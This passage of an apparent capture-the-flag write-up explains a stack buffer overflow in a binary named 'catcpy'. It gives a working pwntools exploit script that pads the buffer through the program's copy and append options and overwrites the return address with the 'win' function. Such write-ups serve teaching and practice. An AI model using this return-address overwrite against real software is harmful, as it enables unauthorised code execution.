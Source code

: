 Since we have overflown the stack, the `ret` instruction is trying to set RIP with the value on the top of the stack (`pop rip`) and jump to there. But value `BBBBBBB\n` is not a valid address, thus the program occurred segmentation fault.

Now we confirmed that the program does have stack buffer overflow vulnerability, we can try to overwrite the RIP to function `win` address.

## Exploitation

To debug it more effectively, I'll be using pwntools:

```python
#!/usr/bin/env python3
from pwn import *

binaryPath = './catcpy'
elf = context.binary = ELF(binaryPath)
p = process(binaryPath)

# main+263: mov eax, 0x0
gdbScript = '''
b *main+263
'''
gdb.attach(p, gdbscript=gdbScript)

def strcpy(payload):
    p.sendlineafter(b'> ', b'1')
    p.sendlineafter(b'Data: ', payload)

def strcat(payload):
    p.sendlineafter(b'> ', b'2')
    p.sendlineafter(b'Data: ', payload)

def returnToOverflow():
    p.sendlineafter(b'> ', b'Z')

# overflow the stack up to the rip
offset1 = 0x100 - 1
PADDING1 = b'A' * offset1
strcpy(PADDING1)
offset2 = 24
PADDING2 = b'A' * offset2
strcat(PADDING2)

WIN = elf.symbols['win']
log.success('win symbol address: %s', hex(WIN))

payload = flat(
    b'B' * 11,
    WIN
)
strcat(payload)

returnToOverflow()
p.interactive()
```
